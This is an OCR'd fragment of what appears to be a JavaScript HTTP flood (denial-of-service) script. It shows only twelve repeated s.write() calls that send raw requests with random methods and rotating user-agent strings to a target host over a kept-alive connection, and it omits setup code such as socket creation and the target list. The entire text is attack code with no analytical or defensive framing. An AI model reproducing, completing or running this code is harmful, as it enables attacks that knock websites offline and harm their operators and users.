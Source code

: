 s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
        s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');